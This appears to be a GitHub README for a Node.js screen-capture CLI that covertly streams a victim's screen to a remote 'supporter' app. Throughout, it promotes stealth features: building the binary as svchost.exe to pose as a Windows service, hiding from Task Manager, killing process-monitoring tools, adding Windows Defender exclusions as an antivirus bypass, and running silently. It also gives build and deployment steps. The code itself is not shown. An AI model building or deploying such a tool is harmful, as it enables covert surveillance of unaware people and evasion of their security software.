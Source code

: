 # Tester CLI - Pure Node.js Screen Capture

## Overview
This is a lightweight CLI version of the tester app that uses pure Node.js instead of Electron. It's much more stealthy and efficient.

## Benefits over Electron Version
- ✅ **90% smaller** - ~10MB vs 100MB+
- ✅ **5x faster startup** - No browser engine
- ✅ **80% less memory** - No Chromium overhead
- ✅ **Much more stealthy** - Looks like normal Node.js process
- ✅ **Easier to disguise** - Simple process name change
- ✅ **Simpler deployment** - Just Node.js + FFmpeg

## Features
- **Pure Node.js CLI** - No GUI, no Electron
- **FFmpeg screen capture** - Native cursor support
- **Process hiding** - Disguises as Windows service
- **WebSocket streaming** - Connects to supporter app
- **Admin privilege detection** - Adapts hiding methods
- **Silent operation** - No console output

## Installation

### 1. Install Dependencies
```bash
npm install
```

### 2. Setup FFmpeg
```bash
setup-ffmpeg.bat
```

### 3. Run the CLI
```bash
# Option 1: Direct Node.js
node main-cli.js

# Option 2: Using batch file
run-tester.bat

# Option 3: Using npm script
npm start
```

## Building Executable

### Using pkg (Recommended)
```bash
# Install pkg globally
npm install -g pkg

# Build executable
npm run build

# Output: dist/svchost.exe
```

### Benefits of pkg
- **Single executable** - No Node.js installation needed
- **Native performance** - Compiled binary
- **Easy deployment** - Just copy the .exe file
- **Process disguising** - Appears as normal Windows executable

## Usage

### Basic Usage
```bash
# Start the tester CLI
node main-cli.js

# It will automatically:
# 1. Connect to supporter app (localhost:8080)
# 2. Start FFmpeg screen capture
# 3. Stream video to supporter
# 4. Hide process from Task Manager
```

### Advanced Usage
```javascript
// Customize settings in main-cli.js
const tester = new TesterCLI();
tester.screenWidth = 1920;
tester.screenHeight = 1080;
tester.framerate = 15;
tester.quality = 5;
tester.connectToSupporter('192.168.1.100', 8080);
```

## Process Hiding

### With Admin Privileges
- Complete Task Manager hiding
- System-level registry modifications
- Windows service creation
- Process monitoring tool termination
- Windows Defender exclusions

### Without Admin Privileges
- Process name change to `svchost`
- Low priority background operation
- Basic process disguising
- User-level registry modifications

## File Structure
```
tester/
├── main-cli.js          # Main CLI application
├── package.json         # CLI package configuration
├── run-tester.bat       # Windows batch runner
├── setup-ffmpeg.bat     # FFmpeg setup script
├── assets/
│   └── ffmpeg/          # FFmpeg binaries
├── ffmpeg-windows.js    # FFmpeg wrapper
├── ffmpeg-capture.js    # Generic FFmpeg capture
└── native-capture.js    # Native capture fallback
```

## Comparison: Electron vs CLI

| Feature | Electron | CLI |
|---------|----------|-----|
| Size | ~100MB | ~10MB |
| Memory | ~200MB | ~40MB |
| Startup | ~3s | ~0.5s |
| Stealth | Low | High |
| Dependencies | Many | Few |
| Detection | Easy | Hard |

## Security Features
- **Process disguising** - Appears as Windows service
- **Registry modifications** - System integration
- **Service creation** - Windows service disguise
- **Defender exclusions** - Antivirus bypass
- **Task Manager hiding** - Process list hiding
- **Silent operation** - No visible output

## Troubleshooting

### FFmpeg Not Found
```bash
# Run setup script
setup-ffmpeg.bat

# Check FFmpeg path
dir assets\ffmpeg\bin\ffmpeg.exe
```

### Connection Failed
```bash
# Check supporter app is running
# Default: localhost:8080
# Customize in main-cli.js
```

### Process Still Visible
```bash
# Run as administrator for full hiding
# Or use basic hiding without admin
```

## Performance Optimization
- **Low CPU usage** - Idle priority
- **Efficient encoding** - MJPEG with quality 5
- **Optimized resolution** - 1280x720 default
- **Reduced framerate** - 15 FPS default
- **Fast preset** - FFmpeg ultrafast preset

## Deployment
1. **Copy files** - tester/ folder
2. **Run setup** - setup-ffmpeg.bat
3. **Start app** - run-tester.bat
4. **Or build exe** - npm run build

The CLI version is much more suitable for stealth operations and resource-constrained environments.

